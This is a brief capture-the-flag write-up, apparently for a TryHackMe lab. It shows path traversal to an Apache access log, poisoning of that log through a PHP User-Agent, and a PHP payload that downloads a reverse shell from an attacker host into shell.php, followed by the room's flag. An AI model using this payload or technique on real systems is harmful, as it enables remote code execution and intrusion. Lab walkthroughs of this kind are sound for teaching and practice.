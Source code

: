 # Target
http://10.10.41.228/?view=dog/../../../../var/log/apache2/access&ext=.log

# PHP Injection
Modify User Agent with Burp or another proxy to PHP code.

# Payload
```php 
<?php file_put_contents('shell.php', file_get_contents('http://10.11.21.187:8989/php-reverse-shell.php'))?>
```
# Flag
cat /var/www/flag2_QMW7JvaY2LvK.txt
`THM{LF1_t0_RC3_aec3fb}`
